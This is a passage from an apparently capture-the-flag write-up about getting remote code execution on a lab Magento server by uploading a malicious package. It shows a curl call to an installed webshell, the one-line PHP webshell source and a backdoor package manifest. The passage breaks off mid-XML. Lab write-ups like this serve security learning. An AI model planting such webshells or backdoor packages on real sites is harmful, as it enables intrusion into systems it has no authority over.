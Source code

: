 When the box was released, there was a second way to get RCE via uploading a
Magento package. It seems this method has been patched in the current instance
of the box, as `/download` is not longer there. I’ll show how I did it anyway,
but you will not be able to replicate this part today.

#### From GitHub

[This GitHub](https://github.com/lavalamp-/LavaMagentoBD) has a template for a
malicious Magento package. I’ll download lavalamp_magento_bd.tgz, and upload
it via http://10.10.10.140/downloader/:

![1557662974804](https://0xdfimages.gitlab.io/img/1557662974804.png)

Now I can use the webshell it installs:

    
    
    root@kali# curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

#### From Scratch

[This post](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-
magento.html) gives a good walkthrough for creating a malicious Magento
package. I’ll create two files in the following structure:

    
    
    root@kali# tree .
    .
    ├── errors
    │   └── cmd.php
    └── package.xml
    
    1 directory, 2 files
    

`cmd.php`:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

`package.xml`:

    
    
    <?xml version="1.0"?>
    <package>
    <name>backdoor</name>
    <version>1.3.3.7</version>
    <stability>devel</stability>
    <licence>backdoor</licence>
    <channel>community</channel>
    <extends/>
    <summary>Backdoor for magento</summary>
    <description>Backdoor for magento</description>
    <notes>backdoor</notes>
    <authors>
        <author>
            <name>jvoisin</name>
            <user>jvoisin</user>
            <email>julien.voisin@dustri.org</email>
        </author>
    </authors>
    <date>2015-08-17</date>
    <time>13:47:49</time>
    <contents>
        <target name="mage">
            <dir>
                <dir name="errors">